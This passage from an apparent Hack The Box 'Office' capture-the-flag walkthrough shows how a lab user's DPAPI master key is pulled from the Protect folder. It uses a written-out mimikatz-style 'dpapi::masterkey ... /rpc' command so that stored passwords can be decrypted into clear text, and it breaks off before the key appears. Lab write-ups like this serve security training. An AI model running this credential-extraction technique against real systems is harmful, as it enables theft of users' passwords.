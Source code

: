 `PS C:\users\ppotts\appdata\roaming\Microsoft\Protect> dir`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-60.png)

When we inspect the protect directory, we can see that the same guidmaster keys that we previously obtained from the credentials folder is found in it:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-61.png)
 
We need to use the full path mentioned above and append “`/rpc`” to it, as shown in the image. This action will provide us with the master key necessary for decrypting the passwords into clear text.

`dpapi::masterkey /in:C:\\users\ppotts\appdata\roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-62.png)

By the end of the output, we can see the master key:
